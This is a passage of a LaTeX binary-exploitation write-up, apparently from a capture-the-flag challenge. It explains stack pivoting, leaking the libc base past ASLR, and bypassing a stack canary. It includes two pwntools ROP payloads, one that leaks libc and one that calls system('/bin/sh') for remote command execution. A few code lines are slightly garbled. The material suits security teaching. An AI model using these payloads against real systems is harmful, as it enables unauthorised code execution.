        
\includegraphics[width=1\linewidth]{Images/rop_gadget.png}
        \caption{Enter Caption}
        \label{fig:enter-label}
    \end{figure}
    
    At this point, we can actually try to pop a shell with a rop chain and do remote command execution, but we would encounter two main problems.\newline
    \begin{itemize}
        \item[Problem 1:] We don't have enough space after the overflow to perform a rop chain.
        \item[Problem 2:] We don't have the base of the libc to bypass aslr.
    \end{itemize}
    So there are two solutions: \newline
    \begin{itemize}
        \item[Solution 1:] Perform a stack pivoting attack.
        \item[Solution 2:] Leak  the libc address.
    \end{itemize}
    \clearpage
    \paragraph{Stack Pivoting}

    When we don't have enough space for the rop chain we can perform an attack called stack pivoting, which consists in manipulating the stack to enlarge the stack that we have available. \newline
    Basically, we fake the rsp register to enlarge the stack, there are many ways to perform stack pivoting, we will find out my version later.\newline
    \paragraph{Leak the Libc base}
    To leak the libc we just need to perform puts with the argument the entry of the libc puts which resides in the got.plt section, and then by doing the following mathematical calculations we will be able to leak it correctly:\newline
    \begin{verbatim}
        base Libc = address function with ASLR - fuction address
        with out ASLR  
    \end{verbatim}
    Follow the exploit code.\newline.
    \begin{verbatim}
                
        pop_rdi=0x4012fb
        puts1=0x84420      
        payload2=flat(
             p64(pop_rdi),
             p64(exe.got.puts)
             p64(exe.sym.puts)
             p64(0x00401292), 
             p64(exe.sym.main),
             b'A'*16,
             p64(real_canary), 
             p64(target_bp), 
        )
        io.sendafter(b">", payload2)
    \end{verbatim}
     We can only perform a \texttt{ROP} chain if the registers contain a net at the end.\newline
    For example, for the libc leak, if we want to do \texttt{puts(got.puts)} we can use the \texttt{pop rdi gadget; ret} so after having written the gadget on the return address we will push the address of puts.got to rdi, and then we will call puts as ret.\newline   
    In this specific case we don't have space to write the rop chain after the return address so previously in addition to the canary I saved the base pointer so as to overwrite the current base pointer with the value of the previously leaked one -0x68 (size of our stack frame).\newline
    By doing this, when we go to call the return we will perform a stack pivoting so we will move the stack and we will correctly leak the contents of the libc.\newline
    The call that will allow us to do stack pivoting is the leave ret call that is made every time we exit a function.\newline
    Leave ret executes the following instructions mov rsp,rbp; pop rbp; por rdi;\newline
    Subsequently, we will perform the same attack but instead of leaking libc we will perform remote command execution, following is the code that allowed us to launch this attack.\newline
    \begin{verbatim}
    payload2=flat(
        p64(pop_rdi), #start of the rop 
        p64(binsh+base),#address of bin sh + base
        p64(system+base), #address of system + base
        b'A'*32, #fill the remaining space of the buffer
        p64(real_canary), # send the canary to bypass the canary mitigation
        p64(target_bp2),# send the target base pointer 
    )   
    \end{verbatim}
    We will call as return address a call to system("/bin/sh").\newline
    \begin{figure}[htbp]
        \centering
        
\includegraphics[width=0.5\linewidth]{Images/rce_stack_chall.png}
        \caption{remote coomand execution}
        \label{fig:enter-label}
    \end{figure}
    \newpage